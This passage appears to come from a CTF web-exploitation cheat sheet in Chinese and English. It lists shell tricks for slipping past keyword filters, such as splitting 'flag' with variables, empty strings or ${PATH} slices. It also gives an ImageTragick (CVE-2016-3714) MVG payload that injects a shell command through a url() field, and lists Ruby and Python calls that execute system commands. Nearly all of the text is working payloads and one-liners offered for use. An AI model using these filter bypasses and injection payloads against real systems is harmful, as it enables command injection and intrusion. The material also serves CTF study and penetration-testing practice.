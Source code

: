 ## Keyword繞過

- String Concat
    - `A=fl;B=ag;cat $A$B`
- Empty Variable
    - `cat fl${x}ag`
    - `cat tes$(z)t/flag`
    
- Environment Variable
    - `$PATH => "/usr/local/….blablabla”`
        - `${PATH:0:1}   => '/'`
        - `${PATH:1:1}   => 'u'`
        - `${PATH:0:4}   => '/usr'`
- Empty String
    - `cat fl""ag`
    - `cat fl''ag`
        - `cat "fl""ag"`

## ImageMagick (ImageTragick)

- CVE-2016-3714
- `mvg`格式包含https處理(使用curl下載)，可以閉合雙引號
- payload:

```mvg
push graphic-context
viewbox 0 0 640 480
fill 'url(https://kaibro.tw";ls "-la)'
pop graphic-context
```

## Ruby Command Executing

- `open("| ls")`
- `IO.popen("ls").read`
- `Kernel.exec("ls")`
- ``` `ls` ```
- `system("ls")`
- `eval("ruby code")`
    - Non-Alphanumeric example: HITCON CTF 2015 - Hard to say
        - `$$/$$` => 1
        - `'' << 97 << 98 << 99` => "abc"
        - `$:`即`$LOAD_PATH`
- `exec("ls")`
- `%x{ls}`
- Net::FTP
    - CVE-2017-17405
    - use `Kernel#open`

## Python Command Executing
- `os.system("ls")`
- `os.popen("ls").read()`
- `os.execl("/bin/ls","")`
- `os.execlp("ls","")`
- `os.execv("/bin/ls",[''])`
- `os.execvp("/bin/ls",[""])`
- `subprocess.call("ls")`
    - `subprocess.call("ls|cat",shell=False)` => Fail
    - `subprocess.call("ls|cat",shell=True)` => Correct
- `eval("__import__('os').system('ls')")`
- `exec("__import__('os').system('ls')")`
- `commands.getoutput('ls')`
